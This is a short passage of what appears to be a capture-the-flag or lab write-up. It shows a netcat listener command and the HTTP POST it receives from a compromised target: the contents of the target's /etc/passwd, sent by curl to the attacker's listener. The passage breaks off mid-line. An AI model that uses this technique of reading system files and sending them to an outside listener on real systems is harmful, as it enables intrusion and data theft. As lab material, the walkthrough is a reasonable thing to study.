 ![alt text](assets/image.png)

Our netcat listener receives the file:

```
$ nc -nvlp 2222                                                                                                                                            
listening on [any] 2222 ...                                                                                                                                  
connect to [10.10.14.182] from (UNKNOWN) [10.10.11.38] 42694                                                                                                 
POST / HTTP/1.1                                                                                                                                              
Host: 10.10.14.182:2222                                                                                                                                      
User-Agent: curl/7.68.0                                                                                                                                      
Accept: */*                                                                                                                                                  
Content-Length: 1947                                                                                                                                         
Content-Type: application/x-www-form-urlencoded                                                                                                              
Expect: 100-continue

root:x:0:0:root:/root:/bin/bashdaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologinbin:x:2:2:bin:/bin:/usr/sbin/nologinsys:x:3:3:sys:/dev:/usr/sbin/nologinsync:x:
4:65534:sync:/bin:/bin/syncgames:x:5:60:games:/usr/games:/usr/sbin/nologinman:x:6:12:man:/var/cache/man:/usr/sbin/nologinlp:x:7:7:lp:/var/spool/lpd:/usr/sbin
/nologinmail:x:8:8:mail:/var/mail:/usr/sbin/nologinnews:x:9:9:news:/var/spool/news:/usr/sbin/nologinuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologinproxy:
x:13:13:proxy:/bin:/usr/sbin/nologinwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologinbackup:x:34:34:backup:/var/backups:/usr/sbin/nologinlist:x:38:38:Mail
```